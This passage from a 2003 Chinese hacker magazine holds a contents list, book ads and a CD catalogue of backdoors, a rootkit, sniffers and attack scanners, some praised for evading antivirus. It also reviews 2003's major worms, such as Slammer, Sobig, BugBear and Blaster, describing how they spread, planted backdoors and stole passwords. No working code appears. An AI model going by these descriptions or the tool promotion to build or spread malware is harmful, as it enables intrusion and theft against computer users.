- 动网漏洞之“乾坤大挪移” .......... 28
- ActiveDown System XP V2.0漏洞分析 .......... 30
- 盗帅，你如何让我放心？！ .......... 32
- 再谈“跨站脚本攻击”——入侵某知名安全站点实例 .......... 34

## 黑兵器库

- 黑暗中的幽灵——口令嗅探器 .......... 38
- 在工作中当了回“007” .......... 42

## 编程解析

- HTTP代理服务器也DIY .......... 44

HTTP是现在最普遍的东西了，很多朋友都对它有一定的了解，或许大家还专门使用sniffer来抓取网络中传播的数据包分析过，但是HTTP中的具体细节可能并不是每一个人都明白。另外，喜欢编程的你，是否也曾希望尝试一下代理服务器的编写呢？所有的疑问都将在本文找到答案！


定价：23.8元

在本书中，可以看到各种有关网络安全方面的工具代码和注释（主要代码并收录在本书的配套光盘中）。网络上流传的黑客工具很多，但你有没有想过尝试开发自己的黑客工具呢？也许有些朋友会觉得这对于自己来说太过于高深了，但只要看了本书后，你就会明白黑客工具是怎样写出来的。

书中介绍了运用多种开发语言，如Visual Basic、Visual C++等工具来开发，书中的代码部分完全是流行的工具代码，并且都有中文注释，很容易就可以看明白。

书中列举了几位国内著名Hacker的代码，并且加上说明提要。在本书的配套光盘中，不仅概括了书中的代码，还收录了其他一些黑客工具代码和相关工具代码以及一些黑客工具等等。



定价：19.8元

《黑客防线》2003年增刊以8个栏目涵盖了黑客技术起步、进阶提高在内的66篇全新文章，分类很详细，每篇文章都经过精心挑选打造，是编辑部在长期读者调查的基础上，结合读者的喜好，特约作者撰写汇编而成，每个栏目的文章有一定的梯度，最适合想进一步提高黑客技术的读者阅读。

## CONTENTS


## 定价：19.8元

《黑客攻防 One To One》一书收集了广大上网用户经常遇到的网络安全问题，针对这些问题，编者按照“问题”——“分析”——“防范”的思路，条理清晰地告诉你在网络上如何应对黑客可能进行的入侵与反攻击，并对自己的计算机系统进行最有效的防护，以及如何进行反入侵与攻击。内容涵盖了从开始接触网络到熟练应对各种网络攻击的大量技巧，可以说是一本了解黑客入侵手段，从而掌握各种防护对策的最佳入门读物。通过介绍黑客可能采取的攻击手段、黑客攻击的思路、各种入侵工具的结合使用，详细分析了黑客攻击的方法和防范对策，从而对黑客攻击有一个充分的认识。

学习本书不需要专业的网络知识，适用于广大希望增强网络安全意识的网络爱好者阅读。

本书光盘收集了书中解决问题用到的所有工具，另外，还收集了优化系统、提高防范措施所用到的大量共享软件，配合书中解决问题的思路，灵活运用，完全可以做到保证一个系统的安全运行。

- 汇款地址：北京市中关村邮局008信箱
- 邮政编码：100080
- 收款人：《黑客防线》邮购部
- 热线电话：(010)62141446、62141445-8011
- E-mail：yougoubu@hacker.com.cn

- INI文件读写技术及程序自动加载应用剖析 ............ 49

程序的自启动技术经常被采用在一些病毒或木马软件中，这是非常常见的一种方式，本文就是从这一点入手，深入剖析了INI文件的程序自加载技术。不仅详细介绍了各个常用的INI文件操作函数，而且自己动手写了两个程序，介绍了INI文件操作函数的注册表关联技术，非常有实际操作价值！喜欢编程的朋友赶快看咯！

- 全面透析FTP ................................ 52

现在没有用过FTP的人很少，但是真正知道FTP详细原理的朋友绝对不是太多，本文就从FTP编程角度出发来分析FTP的具体原理，相信对于大多数喜欢编程的朋友们来说，可以好好地了解下相关的原理，而对于那些已经对FTP有所了解的朋友来说，同样也可以借此机会理一理自己的思路，温故方能知新……

## 密界寻踪

- 用OllyDbg对SVK Protector程序手动脱壳和修复 ........ 57
- Cracker初级教程之DES算法破解 .................. 61

## 新兵训练营

- 利用浏览器漏洞构建完美木马 .................... 64
- 我截取的Hash这样用 .......................... 66
- MySQL攻击全攻略 ............................. 68

## e生e事

- 黑客往事 .................................. 72

## 攻防实验室

## 编读互动

## 你问我答

## 安全相关

SpyRemover，可以清除悄悄安装在你的电脑里的间谍程序，它可以帮助你快速地在系统组件中搜索已知的间谍程序的踪迹，并可以帮助你安全地清除它们。

Windows护理专家电脑保护系统，可以让你锁住电脑，不让非法者使用，保护性能极强，如不知道密码你想使用，即使是重新启动也无济于事。

文件安全专家，禁止复制文件、禁止读文件、禁止文件被修改、禁止删除文件、硬盘写保护、隐藏文件、可执行代码保护。

IE防火墙，广告屏蔽、窗口限制、恢复误关闭IE窗口、一键修复、网址过滤。

木马分析专家，能自动分析、终止可疑进程、窗体类型及木马详细资料，并能随时在线升级木马病毒代码特征库，查杀各种未知木马。

红墙主机网络防火墙，新研发的红墙主机网络防火墙个人版，其功能强大，界面新颖、简洁、友好。

Windows 2000系统漏洞修复，自动修补系统漏洞并增强系统抵抗力。

## 后门木马

Remote-Anything，作为一款远程控制工具，功能非常强大，且服务端大小只有86.7KB，默认端口4000，永远不会被病毒软件查杀。

晨曦依梦，一个开放源代码的小木马，获得的密码文件会按计算机名的变化而变化，不死账号也会按计算机名的变化而变化，永远打开3389和23端口。

FU_Rootkit，一个rootkit工具，可以隐藏进程和驱动，改变进程令牌和SID，使用hook技术隐藏进程和驱动，而且它是公开源代码的。

INJECTOR，允许通过一个十分小巧的服务端向远程计算机发送和执行任何*.exe文件，这对于从一个小漏洞入侵后扩大战果十分有用。

HAIIVO，国产后门工具All in One 0.3，红客联盟LION出品。

srv1984：srv加工压缩版，可以躲过所有病毒防火墙。

## 加密解密

OllyDbg 1.09C中文版，目前风头强劲的一款跟踪软件，跟踪和反跟踪做得都很不错，而且功能强大，跟踪起来数据清晰明了。

w32dasm，这个软件可以说是最经典的反编译软件了，增加了对VB、Delphi字符串的支持，增加了反Anti的强度、注释等等。

SoftICE，Windows NT和2000平台上的必不可少的调试工具。

THC-Hydra，可以用来对需要网络登录的系统进行快速的字典攻击，包括Samba、FTP、POP3、IMAP、Telnet、HTTP Auth、LDAP、NNTP、MySQL、VNC、ICQ、Socks5、PCNFS、Cisco等，支持SSL加密。

## 扫描程序

LscanPort，高级扫描（SYN刺探）的扫描器+源代码。

Shadow Security Scanner，非常专业的安全漏洞扫描软件，能扫描服务器各种漏洞，包括很多漏洞扫描、账号扫描、DOS扫描。

AutoAttack，非常简单的一个自动扫描器，针对常见的系统漏洞的自动攻击方法，用来找肉鸡是个比较不错的选择！

## 动画教程

- 过关录像1，新的通过黑客防线攻防实验室第八关的过关录像，希望能给迷惑中的朋友指点一下迷津！
- 过关录像4，黑防攻防实验室第九关过关录像。
- serv-u漏洞利用动画，Serv-u FTP Server远程/本地提升权限。
- 黄金眼破解“金梅电影”网站动画，用黄金眼V1.1程序破解“金梅电影”程序的管理员ID和密码。
- 隐藏个人主页，在肉机上开个隐藏的个人主页动画演示，是现在比较流行的一种“玩法”！
- 申请QQ，用QQ号码申请精灵+跳板申请QQ动画演示。
- MySQL Shell，简单利用MySQL漏洞获得Shell的动画演示。
- 执行者木马配置教程，很新的执行者4.3木马安装配置图文程序，帮助大家了解这个木马。
- serv-u漏洞利用，利用Serv-u FTP Server配置信息错误，从而远程/本地提升权限的动画教程。
- ms03049溢出动画，在这个漏洞利用上，实际操作效果分成两派，一派说很灵，一派说一次都没成功过，公道自在人心。
- QQ密码，利用工具破解简单的QQ密码的动画教程。
- 限制端口动画，关闭系统中无用端口的动画教程。
- MD5加密ASP数据库动画，现在很多朋友都使用了自己的ASP数据库，比如论坛等系统，但是缺乏一种比较实用的防护方法，使用MD5加密无疑是非常好的方法之一！

## 读者点播

- SolarWinds，本身是网络管理软件，也是攻击首选。
- LC4，l0pht的NT口令破解器工具v4.0，效率相当高。
- 黑客之歌，一首专门为中国黑客写的歌。
- Netcat，加密传输的版本，压缩里内含for Linux和for Windows两个版本。

## 杂志相关

- xsniff，一款功能独特的密码嗅探器，适合在Windows系统下使用。
- 动网最新漏洞攻击录像，由中国网络脚本测试小组发现的动网又一个大的漏洞！
- RegSnap汉化版，它可以详细地向你报告注册表及其他与系统有关项目的修改变化情况。
- VisualNet网络管理平台，可以实现对所有IP编址的网络设备的自动识别、拓扑发现、状态监视、服务监视、流量监视、事件报警等等，其中设备识别和拓扑发现等多项技术国内外领先。
- fixbrk.c，Linux内核漏洞修补程序源代码。
- HTTP，一个作者自己打造的HTTP代理服务器。
- 微型FTP，一个非常玲珑的FTP服务器程序和源程序。
- Winsniff，经典Windows下口令嗅探程序。
- 跨站攻击利用程序，入侵某知名安全站点中使用的攻击程序。
- 攻击手机程序，让你的手机在短时间内“累”掉的程序和源代码。

刘流：2003年对病毒界和反病毒界来说是非常不平凡的一年，我想这从各位专业病毒杀手的年终奖中应该会体现出来吧！在这里，我们并不想对2003年的病毒作一个严格的排名，感觉实在没有什么意思。不过，对过去一年的病毒发作情况做一个总结倒是非常有必要的。所以，本期我们挑选了2003年中最有影响的7个病毒和3个蠕虫做成专题文章。

这10个病毒、蠕虫应该说可以大致概括出目前病毒的总体发作情况和趋势了。相信对于众多深受病毒、蠕虫之苦的朋友来说，我们必定可以引以为鉴。而这对病毒技术研究者来说，希望也可以让大家有所思考。如果本文可以给反病毒研究者们提供一点思路，我们自然倍感欣慰。

## 病毒虽病，痛何如？


### ——2003年10大毒虫总结

文／sky_whu

在即将过去的2003年，无疑给病毒史添加了极为光辉的一页。而对广大用户来说，2003年成为让人刻骨铭心的病毒、蠕虫灾难年。2003年病毒、蠕虫疯狂发作，其规模之大、涉及范围之广、破坏力之强都是史无前例的，而媒体对它们的关注同样也是“史无前例”的。

位于美国弗吉尼亚州雷斯顿的iDefense公司恶意代码部主任金·邓海姆（Ken Dunham）称：“今年是最糟糕的一年，毫无疑问，恶意代码的发作程度在2003年达到了有史以来的最高峰。我们以前也曾经看到过恶意代码对网络产生的重要影响，并且也看到过蠕虫病毒所引起的破坏，但是前几年它们只是一种令人烦恼的东西，但是现在它们却对网络基础设施产生了巨大的破坏作用。”

> 编者注：不知各反病毒公司会怀着怎样一种心情来做公司内部的年终总结报告？！

微软（Microsoft）在年底也表示，电脑病毒编写者在和执法人员的较量中赢得胜利，他们的罪行今年造成全球约130亿美元损失，但却逍遥法外。《商业周刊》的数据称，病毒每年造成的损失超过130亿美元，保护网络免受这类攻击每年要花费38亿美元。

> 编者注：小编虽然不知道这些精确的数据是如何计算出来的，但对病毒、蠕虫带来的破坏还是心有余悸。很多因病毒、蠕虫发作而丢失的数据、时间等，其本身的价值或许我们就无法估量。

2003年产生重大影响的病毒、蠕虫非常之多。本文仅选择其中10个笔者认为影响最大的病毒和蠕虫加以介绍，也算是我们对过去一年的总结。为了便于读者们对2003年的病毒发作情况有个更为直观的了解，这里以时间为顺序来介绍（排名不分先后^_^）。

## SQL蠕虫王（Slammer）

2003年1月25日上午开始，在全球范围内互联网访问速度减慢，部分网站的数据库和主机出现无法访问的现象。随着时间的推移，网络堵塞情况越来越严重，到1月25日下午，全球互联网几乎全部瘫痪。

这无疑引起了各国上下的恐慌，各安全部门、通信机构以及各信息安全公司的相关人员几乎全部结束周末休假，开始查找罪魁祸首和对此出现的各种情况进行紧急处理。通过对捕获的数据样本分析和研究，发现这是一种新出现的针对Microsoft SQL Server 2000的蠕虫。该蠕虫本身非常小，仅仅是一段376个字节的数据。利用的安全漏洞是“Microsoft SQL Server 2000 Resolution服务远程栈缓冲区溢出漏洞”，蠕虫利用的端口是UDP/1434，该端口是SQL Server Resolution服务。

> 关于该蠕虫的详细分析，大家可以参考我们杂志2003年第9期的专题“SQL蠕虫王是怎样炼成的”。

该蠕虫具有极强的传播能力，蠕虫溢出成功取得系统控制权后，就开始向随机IP地址发送自身，由于这是一个死循环的过程，发包密度仅和机器性能和网络带宽有关，所以发送的数据量非常大。该蠕虫对被感染机器本身并没有进行任何恶意破坏，它仅存在内存之中，不会向硬盘上写文件。因此对于感染的系统，重新启动后就可以清除该蠕虫，但是如果不及时打上补丁，仍然会重复感染。由于发送数据包占用了大量系统资源和网络带宽，形成UDP Flood，因此感染了该蠕虫的网络性能会急剧下降。一个百兆网络内只要有一两台机器感染该蠕虫，就会导致整个网络访问阻塞。

美国CNN报道说，这次故障发作于美国东部时间早上7时11分，这种不知名的病毒使全球用于域名解析的主要DNS服务器被感染，造成电信带宽被大量占用，大量网址无法访问。

该蠕虫给全球带来了数十亿美元的损失。并且在近5个月以后，由于许多网络管理员取消了路由器上的控制措施，导致大量Slammer蠕虫死灰复燃，再次对网络造成一定的影响和破坏。

> 就在快1年后的今天，我们还经常看到被蠕虫王感染的例子。其实，早在2002年7月24日，微软在2002年第30号公告中（MS02-039）就公布了SQL Server 2000的3个安全漏洞，其最严重的后果将会导致攻击者获得机器的控制权。而“2003蠕虫王”病毒正是利用了Microsoft SQL Server 2000服务远程堆栈缓冲区溢出漏洞。如果我们及时打好了该漏洞补丁，很多损失就可以避免。但我们为什么没有呢？并且在后来的冲击波、大面积爆发木马中，我们似乎仍然没有汲取Slammer给我们带来的教训。

## 爱之门（LoveGate）系列

该系列病毒最早在2003年2月20日出现，据率先发现该病毒的交大铭泰信息安全中心的负责人表示，“爱之门”最开始版本是一种蠕虫病毒，感染长度为77312字节，主要通过Outlook电子邮件和文件共享软件进行传播，速度相当快，可以感染Windows 9X、Windows Me、Windows NT、Windows 2000、Windows XP系统。

%System%：文件名随机如下：WinRpcsrv.exe、syshelp.exe、winrpc.exe、WinGate.exe、rpcsrv.exe，并自动搜索本地文件目录，如果找到后缀名是 .ht* 的，就从这些文件中找到邮件地址，并发感染的邮件病毒。

该系列病毒变种非常之多，国家计算机病毒应急处理中心在 2003 年 2 月 25 日上午监测到“爱之门”（Worm_Lovgate.C）侵入我国网络，之后又陆续出现了该系列的很多其他变种，直到 2003 年 11 月 17 日，瑞星全球反病毒监测网截获该系列病毒的最新变种——Worm.LovGate.T。

另外，江民公司称其率先截获的 I-Worm/Supkp（“超级密码杀手 007”病毒），以及金山公司称在国内第一个率先发现的“恶邮差”病毒（Worm.Supnot.78858.c），其实和 LoveGate 是同一系列。据金山公司的报道说，该病毒警报后的第二天，其他公司相继截获该病毒，并命名为“爱情后门”、“超级密码”变种等等。而江民公司则称此病毒最早版本中并没有“Lovegate”或“爱情后门”字样，而只有“超级密码杀手（Sup_kp）”字样。

究竟哪家公司才是真正的第一个截获者，这里笔者难以也无心考证。但各反病毒公司对于同一病毒采用不同的命名方式已经给广大用户造成了一定的恐慌。譬如对于 LoveGate.c，其就同时还拥有“恶邮差”、“W32/Lovgate.c@M”、“W32.HLLW.Lovgate.C@mm”、“Win32/Lovgate.C@mm”、“Win32.Lovgate.C”、“Worm.Supnot.78858.c”、“爱之门”、“后门爱虫”、“超级密码”等多个别名。

> **小常识：** 在病毒命名中，@m 后缀表明该病毒或蠕虫是通过电子邮件传播的，而 @mm 则意味着“群发邮件”。从这一点看来，该病毒加“@mm”后缀可能还是更为合理一些。

该系列病毒集蠕虫程序、后门程序、黑客程序于一身，其除了复制自身外，大致有如下技术特点：

- 1. 通过局域网传播。
- 2. 在中毒计算机上大范围搜索 E-mail 地址，自带 SMTP（简单邮件传输协议）和 MAPI 功能模块，通过 E-mail 大面积传播。
- 3. 修改注册表和 WIN.INI 文件两种方式进行自启动。
- 4. 对 txt 和 exe 文件与病毒进行关联，以至于这两类文件执行时会先执行病毒程序。
- 5. 猜解局域网计算机的管理员和 Guest 密码。
- 6. 病毒运行后会在系统上开一个“后门”，通过打开端口对被感染用户进行连接和操作，远程用户可以通过该端口在被感染计算机上执行程序、获取信息，对运行的后门程序进行配置。
- 7. 周期性地往特定 E-mail 地址发送中毒计算机一些基本信息，以便病毒作者加以控制。
- 8. 盗窃密码：通过搜索特定窗口来获取用户的密码，这也是很多监视程序经常用到的伎俩。

> **编后语：** 某些反病毒公司通常在截获一个病毒后的报告中，会善意地提醒用户“目前国内外大部分反病毒软件还无法将该病毒变种查出”，因此希望广大用户更要小心提防。

## 口令蠕虫（DvLdr）及其变种

该病毒又被称为“密码探测者”、“猜谜者”、Deloder、ARG、VNC-based 等。

据金山报道，2003 年 3 月 7 日，其反病毒中心首次捕获该病毒。被该病毒感染的主机会收发大量数据包造成网络拥塞。在 3 月初曾造成国内骨干互联网出现明显拥塞，数以万计的国内服务器被感染并自动连接境外服务器。在其后的几个月里，该病毒又出现了两个变种，在许多局域网中广泛传播。

该病毒暴力破解网络上机器的密码，成功后感染被攻破密码的远程主机，并在其上安装运行木马，使远程主机被攻击者完全控制。该蠕虫主要攻击系统为 NT/2000/XP 系列的计算机。病毒通过自身捆绑的第三方工具来实现远程执行应用程序、安装病毒，并拥有远程控制主机、通过 mIRC 进行攻击等功能。

江民反病毒专家介绍，该病毒采用 VC++6 编写，并采用 aspack 压缩过，主要攻击 Windows NT/2000 的系统平台，通过探测 445 端口方式破解管理员密码。病毒自带了两个工具，分别是 psexesvc 和 Remote Process Launcher，其均为 SYSINTERNAL 发布的正常网络工具。在攻击成功后，会植入一个后门程序来控制受感染的机器。

该蠕虫的攻击流程如下所示：

- 1. 蠕虫运行后首先在系统注册表的 Run 项中加入自己的键值，以保证系统重新启动后能够自动运行。
- 2. 蠕虫以 testXserv 为互斥量防止自身多个副本同时运行。
- 3. 蠕虫随机得到两个 IP 并建立两个动作相同的传播线程。等待线程结束后重复。传播线程是这样运行的：
  - 1. 随机选定目标 IP 地址，然后调用 Windows 系统函数 WNetAddConnection2A 来连接目标地址的 Windows 文件共享和远程访问端口（445）。
  - 2. 一旦连接成功，蠕虫用自身一份字典列表（其中含有 84 个常用密码）穷举对方超级用户口令。
  - 3. 一旦密码破解成功（即获得了远程主机的管理员权限），蠕虫从自己的资源节中放出两个文件 psexec.exe 和 inst.exe。

> psexec.exe 是由 SYSINTERNAL 公司提供的工具，用于远程执行应用程序；inst.exe 是病毒的安装程序。

- 4. 蠕虫通过 psexec.exe 将自身（DvLdr32.exe）和 inst.exe 传递到远程主机并运行它们。
- 5. 蠕虫将删除被感染远程系统的系统盘 C:、D:、E:、F:、ADMIN$、IPC$ 的共享，导致无法进行正常的远程管理，同时也防止这台机器被重复感染。

## 老牌公司（Sobig）系列

该系列病毒也被瑞星称为“大无极”，金山称之为“巨无霸”，江民称之为“好大”。

Sobig 系列病毒的第一个版本是在 1 月 10 日被发现的。而最近一个版本是瑞星称其于 8 月 19 日在国内率先截获的大无极变种 F（Worm.Sobig.F），其目前共有 6 个版本。该系列病毒中的版本 E 和 F 还对自身的传播时限进行了限制，前者的时限为 2003 年 7 月 13 日，后者为 2003 年 9 月 10 日。

> 不过后来由于太多原因，出现了 Sobig.F 病毒超过传播时限后仍然继续大肆传播的情况。目前网上已经有人开始预测还没有出现的 Sobig.G，并且在猜想其可能拥有的功能。我想只要大家平时做好安全意识培养，很多病毒都是可以应付的。

另外，Sobig 系列病毒将垃圾邮件发挥到了极致。Sobig.F 被称为第一个能够赚钱的病毒，成千上万台计算机被这种病毒感染之后成为垃圾邮件的发送源。该系列病毒两度引起垃圾邮件大面积泛滥而导致网络瘫痪，给大家工作带来极大不便。

“F-Secure 安全公司负责杀毒研究的经理 Hypponen 表示，这个病毒策划周密、设计完美而且执行起来非常好。他认为，这个病毒的作者很可能向垃圾邮件制造者出售被这种病毒感染的计算机目录。”

该病毒具有如下技术特征：

- 1. 它通过局域网传播，查找局域网上的所有计算机，并试图将自身写入局域网络计算机的启动目录中以进行自启动。
- 2. 修改注册表启动项以便于重新启动时获得控制权。
- 3. 病毒具有自我升级能力。该病毒每隔两小时到指定网址下载病毒程序，并将用户的隐私发到指定的邮箱。由于邮件内容的一部分是来自于被感染电脑中用户的资料，因此有可能泄漏用户的机密文件。
- 4. 从所有可能包含邮件地址的 wab、dbx、htm、html、eml、txt 格式的文件中搜索 Email 地址。向这些地址发送标题如“Re: Movies”、“Re: Sample”等字样的病毒邮件进行传播，邮件地址的发送人也是病毒自己设计的虚假地址，如 support@microsoft.com、big@boss.com、support@yahoo.com 等。邮件的主题、正文内容、附件名称非常具有欺骗性。

## 菲滋（Fizzer）

5 月 11 日，国外流行的 Fizzer 病毒在我国出现。该病毒通过电子邮件和文件交换软件 Kazaa 等感染途径在互联网上迅速传播。该病毒使得网络流量加大，导致企业内部网络瘫痪。

该病毒又称为“呲嘶声”、“泡沫人”、“费氏”等。该病毒具有如下一些技术特征：

- 1. 通过电子邮件进行传播。邮件的主题、内容和附件都不固定。病毒从 Outlook 中的联系人地址和 Windows 地址簿（WAB）中搜索邮件地址，并向这些地址发送带有病毒附件的电子邮件。病毒邮件的发件人地址是伪造的，附件的扩展名为 .com、.exe、.pif 或 .scr。
- 2. 通过 IRC 传播。病毒对某些 IRC 服务器进行连接，成功后等待攻击者的进一步指令。

编者注：国内某些知名木马中也采用了这种控制方式。

- 3. 提供后门。病毒会在 81 端口运行 HTTP 服务，从而为攻击者提供远程控制的功能。
- 4. 通过 Kazaa 传播。并都会将自己复制到 Kazaa 共享目录中以便于其他用户下载。

> 编者注：

Kazaa 是一款 P2P 共享软件，它可以让匿名用户在互联网上交换歌曲及其他文件。

- 5. 记录用户键盘信息。该病毒会把所有键盘操作记录到 Windows 目录下的“isrvc.klg”文件中。
- 6. 自动升级。Fizzer 还会从远程服务器上下载自己的升级版本。
- 7. 修改注册表启动项以便于重新启动后获得控制权。
- 8. 终止反病毒软件的运行，以躲避反病毒软件的查杀。

> 编者注：

自从木马传播病毒使用这一方法之后，大多数病毒开始加以效仿，并且一般在病毒体中可以找到全球的大部分安全软件进程列表。

## QQ 连发器

对广大 Q 友来说，今年遇到的最为烦恼和尴尬的事情，无非就是 QQ 连发器了。其也被称为“QQ 消息机”、“绕舌人”、“自动网页”、“QQ 尾巴”、“QQ 狩猎者”等。有人称它们为病毒，也有人称它们为木马，不过，说它们是恶意程序总是没错的。

中了 QQ 连发器后，它会在本地机上寻找 QQ 消息发送窗口，每隔 1 分钟（或半分钟）在 QQ 消息发送窗口中添加如下一些信息：

> “激情电影爽啊！给你也推荐一下，完全免费——http://www.qq***.com”

“快去这看看，里面有蛮好东西——http://www.happy***.com”

“http://www.hao***.com 帮忙看看这个网站打不开。”

“http://ni***.126.com 看看啊。我最近照的照片～才扫描到网上的。看看我是不是变了样？”

而这些网页中，含有某些自动加载 .mht 文件的代码，当用户点击这些网址时，如果浏览器含有漏洞（错误的 MIME 头），则会自动下载并运行 .mht 文件中经过 Base64 编码的 EXE 文件（即 QQ 连发器）。这样，QQ 连发器通过 QQ 消息得以继续扩散。

QQ 连发器应该说为某些网站做足了广告，其变种很多，当然各自都为自己的主子（网站）服务。譬如：

- http://www.film****.com/
- http://www.happy***.net
- http://www.qq***.com
- ……

并且大多数 .mht 文件释放出的 exe 文件都经过了加壳处理。

由于大多数用户 IE 浏览器并没有打好补丁和升级，因此广大 QQ 友在 6 月份的日子都不是那么好过，很多朋友都选择了重装系统和 IE，但却无济于事。由于其变种极多，受害用户极多，并且大多都不知道如何清除，以至于后来腾讯和金山共同推出了 QQ 病毒家族专杀软件，其可以针对其中的 10 多个版本进行清除。

> 关于 QQ 连发器详细的技术分析，大家可以参考作者在我们杂志 2003 年第 9 期的“QQ 连发器制作原理及防范”一文。

## 妖怪B（BugBear）

根据 Sophos 的统计结果，2003 年前六个月排名前十位的电脑病毒中，妖怪 B 病毒以感染率 11.6% 名列榜首，妖怪 A 也以感染率 2.5% 位居第 7。更值得注意的是，妖怪 B 的出现引起联邦调查局介入。

该病毒又称为“Tanatos”、“怪物”等。“妖怪”病毒最初于 2002 年 10 月已经出现，当时疯狂了近两个星期，今年 6 月 5 日，妖怪 B 卷土重来，这个新变种是一个文件感染、蠕虫、黑客木马等多种特性于一身的混合型病毒。

该病毒最引人关注的是，它可以对 1200 多家银行进行有目的性的攻击，可以向外界客户端发送被感染用户的机密信息，如用户名和密码等。

妖怪 B 使用 VC6 编写，并使用 UPX 压缩过，该网络蠕虫的大小是 72K 字节。用来传播的网络蠕虫往往有双扩展名，尽管文件名称是变化的，但其真正扩展名通常是 exe、scr 或者 pif 3 种后缀中的任意一种。妖怪 B 具有如下的一些技术特征：

- 1. 从“.mmf”、“.nch”、“.mbx”、“.eml”、“.tbb”、“.dbx”、“.ocs”等后缀的文件中搜索 E-mail 地址。
- 2. 群发邮件，使用自身带的 SMTP 程序发送带有病毒的邮件到所有查询到的地址，并且伪造信件的原发人。
- 3. 利用 IE 的异常处理 MIME 头漏洞导致系统自动执行病毒。
- 4. 通过网络共享进行传播，试图将自己复制到远程系统的启动文件夹中，并可以感染网络打印机。
- 5. 能感染特定清单上的可执行文件。
- 6. 包含键盘记录和预留后门功能。
- 7. 关闭各种防病毒或防火墙程序。
- 8. 专门针对银行进行攻击。该病毒体内含有一张银行列表，里面包含了全球一千多家银行的域名信息。

> 关于这个病毒的详细资料，大家可以参考我们杂志 2003 年第 8 期的专题“捕捉妖怪 B 的神秘光环”。

## 小邮差（Mimail）系列

“小邮差”病毒于 8 月 1 日首次出现，该系列病毒变种极多，目前最新的变种为瑞星称其 12 月 3 日在国内率先截获的第十二个变种“小邮差变种 L（Worm.Mimail.L）”，该系列病毒也引起了微软公司的关注。

该病毒主要通过电子邮件传播，当用户打开病毒邮件时，因为其利用了已知漏洞，病毒附件会自动执行，使得用户机器遭受感染。之后，病毒会不断向外发送染毒邮件，导致病毒进一步扩散。其传播和复制速度极快，短时间内就可以感染整个局域网，侵蚀网络资源，同时系统内存被大量占用，使得系统运行速度减慢，使企业用户无法正常使用网络，严重地影响了一些公司的正常运作。

该病毒会在很多的文件类型（目前为止是最多的）中收集邮件地址。该病毒自身含有 SMTP 引擎，通过电子邮件进行传播时，伪装成管理员给用户发送邮件，并声称该用户所使用的电子邮件地址将要到期，诱骗用户打开邮件附件，从而感染病毒。

该病毒系列从第 9 个变种开始，具有伪装成信用卡信息填写栏来骗取用户的信用卡信息的功能，并通过网络将有关信息发送到病毒作者指定的信箱。

和其他病毒一样，该系列病毒也会修改注册表启动项，以便于系统重新启动后病毒可以获得控制权。

该类病毒同样经过了 UPX 加壳处理，加壳不仅可以使得病毒程序变小，还可以在一定程度上加大反病毒工作者对其样本分析的难度。

## 冲击波系列

2003 年 8 月 11 日，大家盼望已久的“冲击波”蠕虫大面积爆发，人们奔走相告。虽然这一切都在意料之中，并且是在 DCOM RPC 漏洞公布后近一个月，微软相关补丁程序已经发布很久，各类 Exploit 已经大批量出现的情况下，最终我们还是不得不残酷面对冲击波给我们带来的痛楚和尴尬。大部分网管开始连夜加班，而普通用户则在各大 BBS 和论坛求救声不断。我们似乎已经彻底忘记了半年前 SQL 蠕虫王给我们带来的惨痛教训。

该病毒利用了 7 月 16 日微软公布的 DCOM RPC 漏洞进行传播，它能够使遭受攻击的系统崩溃，并通过互联网迅速向容易受到攻击的系统蔓延。而很多系统并没有下载安装该漏洞的补丁程序，所以传播速度相当迅速，波及范围也十分广泛。

蠕虫持续扫描网络，发现易受攻击系统后便将自身（MSBLAST.EXE，该文件也是经过加壳处理过的）复制到目标系统。蠕虫驻留系统后在注册表中修改注册表启动项，以达到随系统启动而自动运行的目的。之后，蠕虫通过创建互斥函数检查自身是否已经运行，如果没有，则继续运行并检查当前计算机是否有可用的网络连接。病毒会以 20 秒为间隔，每 20 秒检测一次网络状态，当网络可用时，病毒会在本地的 UDP/69 端口上建立一个 tftp 服务器，并启动一个攻击传播线程，不断地随机生成攻击地址，进行攻击。另外，该病毒攻击时会首先搜索子网的 IP 地址，以便就近攻击。当病毒扫描到计算机后，就会向目标计算机的 TCP/135 端口发送攻击数据。当病毒攻击成功后，便会监听目标计算机的 TCP/4444 端口作为后门，并绑定 cmd.exe，然后蠕虫会连接到这个端口，发送 tftp 命令，回连到发起进攻的主机，将 MSBLAST.EXE 下载到目标计算机上并运行。

> 从目前情况看来，能够引起广泛关注的病毒似乎都具有通过 E-mail 来传播自己的能力，并且其大多都用到了已经出现过的 IE 异常处理 MIME 头漏洞。看来，修补漏洞对于防范某些病毒来说也是非常有效的。

